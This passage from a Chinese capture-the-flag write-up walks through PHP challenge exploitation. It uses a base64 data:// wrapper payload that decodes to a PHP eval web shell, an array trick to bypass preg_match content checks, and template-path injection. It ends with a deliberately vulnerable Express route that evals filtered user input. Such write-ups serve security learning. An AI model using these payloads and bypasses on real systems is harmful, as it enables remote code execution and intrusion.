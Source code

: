 那就可以利用数组绕过文件内容的检测，可以构造伪协议，但是要注意正则

```
# render/render_class.php
if(!preg_match('/<|>|\?|=|php|sess|log|phar|\.|\[|\{|\(|_/', $foot)){
    include($foot);
}

# $foot中不能有以上内容
# data://text/plain;base64,PD9waHAgZXZhbCgkX1BPU1RbMV0pPz4x
```

然后就是数组绕过：
传入content为数组，preg_match匹配的是字符串，保存，进入else，file_put_contents数组拼接

![](https://i.loli.net/2021/11/23/ABr7iZxd8HScQG6.png)

后面操作就同上了
再传个模板，内容为aaa{{cnzz}}

然后修改`平台设置->系统配置->页面统计`，改为aaa.sml的绝对路径`/var/www/html/templates/aaa.sml`

然后进行模板渲染就行

![](https://i.loli.net/2021/11/23/DgIc1YEwQFmfR76.png)



## 515-nodejs

nodejs express框架

```js
var express = require('express');
var _= require('lodash');
var router = express.Router();

/* GET users listing. */
router.get('/', function(req, res, next) {
  res.render('index', { title: '我是复读机' });
});

router.post('/',function(req,res,next){
	if(req.body.user!=null){
		msg = req.body.user;
		if((msg.match(/proto|process|require|exec|var|'|"|:|\[|\]|[0-9]/))!==null || msg.length>40){
		  	res.render('index', { title: '敏感信息不复读' });
		}else{
			res.render('index', { title: eval(msg) });
		}
	}else{
		res.render('index', { title: '我是复读机' });
	}
	 
});
module.exports = router;
```
